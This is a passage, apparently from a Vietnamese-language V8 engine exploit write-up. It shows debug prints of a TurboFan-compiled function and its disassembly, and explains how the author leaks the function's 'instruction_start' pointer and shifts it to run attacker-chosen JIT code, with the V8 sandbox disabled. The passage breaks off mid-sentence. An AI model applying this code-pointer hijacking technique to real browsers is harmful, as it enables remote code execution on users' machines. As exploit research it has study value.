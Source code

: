 ```
DebugPrint: 000003080019ABC9: [Function] in OldSpace
 - map: 0x030800184131 <Map[32](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x030800184059 <JSFunction (sfi = 0000030800146745)>
 - elements: 0x030800000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype:
 - initial_map:
 - shared_info: 0x03080019a6d9 <SharedFunctionInfo foo>
 - name: 0x03080019a499 <String[3]: #foo>
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x03080019aa95 <ScriptContext[5]>
 - code: 0x0308001aee25 <Code TURBOFAN>
 - source code: ()
```
* Khác với 2 mảng double kia, địa chỉ hàm này không cố định(nếu mình khai báo thêm biến hay j đó thì nó sẽ bị dịch đi một chút nên dùng offset cố định sẽ không được) nhưng mà field `name` của nó sau nhiều lần chạy mình luôn thấy nó là `0x19a499` như vậy thì mình chỉ cần search giá trị này từ 1 base dưới hàm này là được
* Sau khi có hàm này thì mình sẽ lấy được địa chỉ của field `code`
* Sau khi được compile bằng `turbofan`

```
%DebugPrintPtr( 0x0308001aee25)
DebugPrint: 00000308001AEE25: [Code] in OldSpace
 - map: 0x030800000d91 <Map[60](CODE_TYPE)>
 - kind: TURBOFAN
 - deoptimization_data_or_interpreter_data: 0x0308001aeda5 <FixedArray[14]>
 - position_table: 0x030800000f61 <ByteArray[0]>
 - instruction_stream: 0x7ff6e0044af1 <InstructionStream TURBOFAN>
 - instruction_start: 00007FF6E0044B00
 - is_turbofanned: 1
```
```
Instructions (size = 644)
00007FF6E0044B00     0  8b59f4               movl rbx,[rcx-0xc]
00007FF6E0044B03     3  4903de               REX.W addq rbx,r14
00007FF6E0044B06     6  f7431700000020       testl [rbx+0x17],0x20000000
00007FF6E0044B0D     d  0f852dc930a9         jnz 00007FF689351440  (CompileLazyDeoptimizedCode)    ;; near builtin entry
00007FF6E0044B13    13  55                   push rbp
00007FF6E0044B14    14  4889e5               REX.W movq rbp,rsp
00007FF6E0044B17    17  56                   push rsi
00007FF6E0044B18    18  57                   push rdi
00007FF6E0044B19    19  50                   push rax
00007FF6E0044B1A    1a  4883ec08             REX.W subq rsp,0x8
00007FF6E0044B1E    1e  493b65a0             REX.W cmpq rsp,[r13-0x60] (external value (StackGuard::address_of_jslimit()))
```

* Ở đây có field `instruction_start` là địa chỉ sẽ được thực thi khi chạy hàm `Foo()`. Ở đây trong `code` con trỏ này sẽ là thuần 64 bits. Ở đây mình build mặc định mình không thấy bật sandbox như của tác giả, nếu không thay vì lưu con trỏ nó sẽ lưu `index` nằm trong 1 table của sandbox
* Ở đây mình sẽ leak con trỏ này rồi sau đó thay đổi nó dịch xuống 1 chút để xuống đoạn nó setup mảng vì mình định nghĩa hàm này theo kiểu
